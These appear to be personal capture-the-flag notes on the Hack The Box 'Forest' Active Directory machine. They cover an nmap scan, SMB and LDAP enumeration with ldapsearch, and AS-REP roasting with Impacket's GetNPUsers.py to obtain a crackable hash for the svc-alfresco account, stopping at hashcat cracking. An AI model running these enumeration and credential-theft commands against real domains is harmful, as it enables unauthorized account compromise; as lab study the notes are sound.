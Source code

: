 let's start with exporting the ip so we can use it faster 
export IP=10.129.95.210
then let's run our nmap scan 
# nmap 
53/tcp   open  domain       syn-ack ttl 127 Simple DNS Plus
88/tcp   open  kerberos-sec syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2021-10-08 14:15:42Z)
135/tcp  open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp  open  ldap         syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds syn-ack ttl 127 Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?    syn-ack ttl 127
593/tcp  open  ncacn_http   syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped   syn-ack ttl 127
3268/tcp open  ldap         syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped   syn-ack ttl 127
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

from the ports open we can say that it's active directory server running with kerberos

Domain name : htb.local

# smb enum
let's try to login as anonymous to the server [[SMB]]
we are in but it doesn't show any shares #smb

# DNS enum
nslookup
server 
10.129.95.210
127.0.0.1
10.129.95.210
and nothing
# ldap enum
ldapsearch -h 10.129.95.210 -x -s base namingcontexts
![[Pasted image 20211008164648.png]]
ldapsearch -h 10.129.95.210 -x -b "DC=htb,DC=local" > ldap.out to dump info from ldap server then we can try to query using 
ldapsearch -h 10.129.95.210 -x -b "DC=htb,DC=local" '(object Class=Person)'
ldapsearch -h 10.129.95.210 -x -b "DC=htb,DC=local" '(object Class=Person)' sAMAccountName 


# impakets
[[Impakets]]
trying to do GetNPUsers.py impaket 
GetNPUsers.py -dc-ip $IP -request 'htb.local/' -format hashcat
and we got a ticket!
![[Pasted image 20211008172555.png]]
for the username svc-alfresco
[[00 Progress/Boxes/HTB/Windows/Forest/04 Creds]]

# using hashcat to crack the hash
![[Pasted image 20211008173112.png]]